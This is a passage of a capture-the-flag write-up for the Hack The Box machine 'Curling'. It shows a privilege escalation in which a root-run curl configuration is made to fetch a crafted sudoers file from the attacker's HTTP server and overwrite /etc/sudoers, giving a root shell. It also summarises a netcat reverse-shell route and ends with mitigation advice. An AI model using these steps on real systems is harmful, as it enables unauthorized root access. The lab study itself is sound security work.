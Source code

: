 I start up the server:

```
kali@kali:~/htb/Curling$ sudo python -m SimpleHTTPServer 
Serving HTTP on 0.0.0.0 port 8000 ...
```

And then try to upload the new sudoers file in input:

```
url = "http://10.10.14.70:8000/sudoers" 
output = "/etc/sudoers"
```

I wait for the server to get a GET request:

```
kali@kali:~/htb/Curling$ sudo python -m SimpleHTTPServer 
Serving HTTP on 0.0.0.0 port 8000 ...
10.129.92.218 - - [05/Feb/2021 21:13:36] "GET /sudoers HTTP/1.1" 200 -
```

hopefully, the sudoers file on the target machine should be overwritten:

```
floris@curling:~/admin-area$ sudo -l
Matching Defaults entries for floris on curling:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User floris may run the following commands on curling:
    (ALL) NOPASSWD: ALL
floris@curling:~/admin-area$ sudo /bin/bash -p
root@curling:~/admin-area# whoami
root
root@curling:~/admin-area# 
```


## Comparing myself to the official writeup:

They find the secret.txt hint in the source code of the index site. 

They get a reverse shell with the template php code.


They find the password_backup file. And get the password by decompressing with bzip2, gzip, and tar.

They use pspy to enumerate running crons. And find the curl command.

They create a malicious crontab to connect back via netcat, and recieve root.


## How to stop this exploit:

In this case, all the software was running on fairly recent patches. I believe an exploit has been found now. But at the time of the boxes release, it was not known. So the errors here are users leaving passwords out. Even if they are obfuscated slightly. 

The running cron tab was also a pretty large mistake. I think the report can be accessble for floris fine. But the input is essentially run as root, and therefore should not be writeable by non-root users.